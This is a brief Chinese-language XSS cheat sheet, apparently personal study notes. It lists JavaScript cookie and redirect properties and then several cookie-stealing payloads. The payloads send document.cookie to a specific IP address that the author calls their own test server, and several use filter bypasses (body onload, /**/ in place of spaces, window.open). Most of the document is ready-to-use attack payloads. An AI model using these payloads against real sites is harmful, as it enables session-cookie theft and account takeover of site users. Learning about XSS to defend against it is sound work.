 # XSS远程执行漏洞

### 常用js语句
````

document.cookie				用于js获取当前网页的cookie值
window.location.href			 用于获取当前页面地址链接
window.location.href='www.baidu.com'	  用于相当于跳转地址

````

常用playload：

````
<script>window.location.href='http://[ip]/xss.php?cookie='+document.cookie</script>
````
     




### 我直接买了一个服务器并且开放了读写权限可以拿来实验XSS

````
相关的ip和playload
<script>window.location.href='http://106.53.207.220/xss.php?cookie='+document.cookie</script>


回显请看
http://106.53.207.220/cookie.txt
````


## 绕过

* 过滤script标签


````
<body onload="document.location.href='http://106.53.207.220/xss.php?xss='+document.cookie"></body>

````

* 过滤空格(使用tab、/**/来绕过)

````
<body/**/onload="document.location.href='http://106.53.207.220/xss.php?xss='+document.cookie"></body>

````


* 其他可行的playload

````
<body/**/onload="document.location.href='http://106.53.207.220/x.php?x='+document.cookie"></body>

<body/onload="window.open('http://106.53.207.220/x.php?x='+document.cookie)"></body>

````


* 存储型XSS



